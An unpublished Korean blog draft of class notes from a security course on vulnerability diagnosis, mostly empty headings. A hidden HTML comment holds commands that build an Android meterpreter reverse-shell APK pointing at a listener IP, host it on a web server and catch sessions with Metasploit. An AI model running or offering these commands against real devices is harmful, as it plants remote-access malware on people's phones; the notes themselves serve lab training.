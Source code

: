```yaml
---
layout: post
title: 취약점 진단 및 대응 실무 1日 / SeSAC 성동캠퍼스1기
description: >
  [클라우드 기반의 모빌리티 융합보안 과정] 취약점 진단 및 대응 실무 1日차 수업 정리한 내용입니다.
image: /assets/img/blog/cover-4.jpg
comments: true
#sitemap: false
published : false
categories: [study,security-vulnerability]
tags: [sesac,cloud,skshieldus,security-vulnerability]
related_posts:
#  - _posts/study/python/2023-10-31-day2.md
#  - _posts/study/python/2023-11-01-day3.md
#  - _posts/study/python/2023-11-02-day4.md
---
```

* toc
{:toc}

<style>.embed-container { position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden; max-width: 100%; } .embed-container iframe, .embed-container object, .embed-container embed { position: absolute; top: 0; left: 0; width: 100%; height: 100%; }</style><div class='embed-container'><iframe src='https://www.youtube.com/embed/' frameborder='0' allowfullscreen></iframe></div>

## 취약점 진단 및 대응 실무 / 4주차 1일자 수업

### 1. 

#### 1-1. 



<!-- 우회하는 목적? 익명성
proxy 대리인

tasklist | findstr tor
netstat -ano | findstr  pid


msfvenom -p android/meterpreter/reverse_tcp lhost=210.178.125.219 lport=4444 R > 1120.apk
sudo cp  ./1120.apk /var/www/html
apache2 restart
msfconsole -> use exploit/multi/handler -> set payload android/meterpreter/reverse_tcp -> set lhost ip -> lport -> set exitonsession false
-> exploit -j ->  -->
